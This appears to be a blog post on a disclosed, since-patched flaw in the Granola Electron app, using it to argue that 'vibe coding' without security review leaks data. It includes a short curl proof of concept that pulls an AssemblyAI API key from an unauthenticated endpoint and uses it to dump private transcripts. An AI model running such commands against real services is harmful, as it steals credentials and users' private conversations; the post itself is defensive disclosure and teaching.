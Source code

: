 ```yaml
---
author: Jonathan Haas
pubDate: 2025-05-12
title: 'When Vibe Coding Goes Wrong: Security Lessons from Granola'
description: Vibe coding shifts software creation from careful engineering to casual AI generation. When startups skip security fundamentals, the consequences aren't just bugs—they're breaches. Here's what the Granola incident teaches us.
featured: false
draft: false
tags:
  - cybersecurity
  - vibe-coding
  - AI-development
  - product-security
  - electron-apps
image:
  url: 'https://images.pexels.com/photos/669618/pexels-photo-669618.jpeg?auto=compress&cs=tinysrgb&w=1260&h=750&dpr=2'
  alt: 'Crumbling wall symbolizing fragile security foundations'
---
```


Vibe coding is having a moment.  
And honestly? It's kind of awesome.

Type a few sentences into an LLM.  
Get a working app back.  
Ship it. Repeat.

Except when you skip the "understand your code" part...  
You don’t just get quirky bugs.  
You get vulnerabilities.

Granola—a Mac app built with Electron—just gave us a painfully real example.

---

## What Went Wrong at Granola

Researchers found that you could:

1. **Unpack** the app easily (`asar extract` on the `.asar` archive).
1. **Read** through the JavaScript.
1. **Find** API endpoints embedded directly in the client.
1. **Hit** one of those endpoints (`get-feature-flags`) without authentication.
1. **Extract** an AssemblyAI API key from the feature flags.
1. **Use** that key to pull **private transcript data** from AssemblyAI.

### Proof of Concept Looked Like This:

````bash
# Step 1: Leak the API key
curl -X POST "https://api.granola.ai/v1/get-feature-flags" \
 -H "X-Client-Version: 5.226.0" \
 -H "Content-Type: application/json" | jq '.[] | select(.feature=="assembly*key")'

# Step 2: Use the key to dump transcripts
curl https://api.assemblyai.com/v2/transcript \
    -H "Authorization: $apiKey" | jq '.transcripts.[].id' > transcript*ids
cat transcript*ids | head -n 1 | tr -d '"' | while read id; do curl https://api.assemblyai.com/v2/transcript/$id -H "Authorization: $apiKey"; done
```text

### What the Transcripts Had

- Text transcripts of audio recordings.
- Some metadata.
- (Fortunately) **no direct access to raw audio files**.

Still, leaking user conversations—even just as text—is a security incident.
Full stop.

---

## How This Smells Like Vibe Coding

Nobody's saying definitively that Granola was "vibecoded."
But the red flags are textbook:

- Sensitive keys bundled into the client.
- No authentication checks on critical endpoints.
- Client/server boundary confusion.
- Basic security 101 mistakes.

It has the hallmark of someone saying to the AI:

> "Write a cool feature flag system"

...and never stepping back to ask:

> "Wait, should this even be exposed to the client?"

That’s **classic vibe coding**:
Prompt, ship, *hope it works*.

---

## Why Vibe Coding Without Guardrails Is Dangerous

Vibe coding feels magical.
But magic tricks don’t build safe systems.

Without critical layers like:

- **Threat modeling** ("What happens if someone inspects the app?")
- **Secure design** ("Who should be allowed to call this endpoint?")
- **API key management** ("Should keys live in the client?")
- **Principle of least privilege** ("Does this key even need full access?")

You’re not just moving fast.
You're skating blind across a minefield.

### The Hidden Costs of Vibe-Coded Apps

- **Trust Erosion**: Users delete your app—and your brand reputation goes with it.
- **Incident Response**: You scramble to patch, disclose, and recover.
- **Regulatory Exposure**: Privacy laws don’t care if your app was "vibey."
- **Compounding Debt**: Quick fixes become brittle patches on a broken foundation.

---

## The Solution Isn't "No Vibe Coding"

Let’s be clear:
**Vibe coding isn’t the enemy.**

It’s an incredible productivity unlock.
It democratizes building.

But if you’re building with AI-generated code, **you have new responsibilities**:

### 1. Audit Everything

Treat your AI like an enthusiastic intern.
Helpful? Sometimes.
Trustworthy without review? Never.

### 2. Train for Threat Modeling

You don’t have to be a full-time security engineer.
But you do need basic instincts:

- Who gets to call this API?
- What’s the worst thing that could happen here?
- Could this app be unpacked, inspected, reversed?

If you can't answer those questions, you need a security review before launch.

### 3. Lock Down Secrets

Never, ever, ever ship API keys, secrets, or privileged tokens in your client apps.
Use proper backend proxying.
Scope keys narrowly.
Rotate them regularly.

No exceptions.

### 4. Build In Authentication and Authorization Early

Even "just a little" security scaffolding saves you from giant messes later.
Set the bar early:

- Every sensitive API must require auth.
- Every key must be scoped and auditable.
- Every endpoint must assume bad actors are trying to hit it.

---

## Final Thought: It's Only "Vibes" Until It's Real Users

Weekend projects?
Fine. Vibe away. No judgment.

Production apps that handle user data?

**Vibe coding stops. Engineering begins.**

Ship fast.
But ship safe.

Granola’s mistake is a flashing neon sign:
🚨 *The vibes are not enough._ 🚨

---

## Disclosure Timeline (Granola)

- **Feb 18, 2025**: Disclosure contact requested.
- **Feb 26, 2025**: Second request.
- **Mar 10, 2025**: Contact established.
- **Mar 11, 2025**: Issue disclosed to Granola; response received confirming remediation.

✅ API key removed.
✅ Endpoint patched.

But the scar tissue remains—for the users, and for the team.

Let's learn the lesson the easy way.
````
